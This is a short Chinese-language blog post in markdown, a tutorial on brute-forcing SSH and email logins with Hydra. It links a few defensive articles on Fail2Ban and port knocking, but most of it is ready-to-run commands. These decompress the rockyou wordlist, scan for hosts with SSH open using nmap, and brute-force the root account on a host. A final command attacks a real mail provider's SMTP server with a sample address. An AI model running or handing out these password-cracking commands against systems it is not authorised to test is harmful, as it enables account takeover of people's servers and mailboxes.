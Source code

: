 ```yaml
---
layout:post
title:使用Hydra通过ssh破解密码
---
```

#使用Hydra通过ssh破解密码

Hydra是非常高效的网络登录破解工具，它可以对多种服务程序执行暴力破解（SSH、VNC等等）。  

防止这种攻击其实很容易，方法很多。以SSH为例：  

[Ubuntu：使用Port Knocking隐藏SSH端口](http://blog.topspeedsnail.com/archives/3936)  
[在Ubuntu中用Fail2Ban保护SSH](http://blog.topspeedsnail.com/archives/262)  
[CentOS 7安装使用Fail2Ban保护SSH](http://blog.topspeedsnail.com/archives/3119)  
[Debian使用Fail2Ban和Tinyhoneypot增加网络安全](http://blog.topspeedsnail.com/archives/3119)  
___
Kail Linux有一个的GUI版本：xhydra，也有一个命令行版本：hydra。  

xhydra：
![xhydra](http://topspeedsnail.com/images/2016/4/Screenshot%20from%202016-04-16%2010-26-48.png)  

hydra：
![hydra](http://topspeedsnail.com/images/2016/4/Screenshot%20from%202016-04-16%2010-28-41.png)  

我使用命令行版本：hydra  

####**字典**  

这种攻击需要字典文件，一个好的字典至关重要。我以Kali Linux自带的rockyou字典为例，位于/user/share/wordlists/rockyou.txt.gz。  

####使用前先解压：    
```bash
# gzip -d /usr/share/wordlists/rockyou.txt.gz
```
####**使用nmap扫描开启SSH服务的主机**  

扫描SSH服务(22端口)，确定可以施行破解的主机。  
```bash
＃ nmap -p 22 -open -sV one_IP_or_range_or_subnet > MyTarget
```
####**使用hydra暴力破解**  
```bash
# hydra -s 22 -v -l root -P /usr/share/wordlists/rockyou.txt 192.168.0.108 ssh
```
####**破解邮箱密码**：  
```bash
# hydra -S -l test@163.com -P /usr/share/wordlists/rockyou.txt -e ns -V -s 465 -t 1 smtp.163.com smtp
```  
更多选项，查看man hydra。
